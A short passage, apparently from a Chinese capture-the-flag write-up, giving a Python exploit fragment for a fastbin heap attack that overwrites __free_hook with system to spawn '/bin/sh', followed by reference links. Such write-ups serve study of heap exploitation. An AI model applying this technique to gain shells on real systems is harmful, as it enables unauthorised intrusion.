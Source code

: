 ```python
#fastbin attack
pay=p64(0)*2+p64(0x71)
Edit(2,pay)
pay=p64(0)*6+p64(0x31)+p64(0)*3+p64(0x431)
Edit(3,pay)
Del(0xc)
Del(0x3)

pay=p64(0)*2+p64(0x71)+p64(free_hook-0x3b)

Edit(2,pay)

Add(0x60-0x18,'/bin/sh')
pay='a'*0x13+p64(system)

Add(0x60-0x18,pay)

pay=p64(0)*2+p64(0x71)+'/bin/sh'
Edit(2,pay)
Del(3)

p.interactive()

```





参考文章

[https://xz.aliyun.com/t/5177](https://xz.aliyun.com/t/5177)

[https://eternalsakura13.com/2018/03/21/lctf2/](https://eternalsakura13.com/2018/03/21/lctf2/)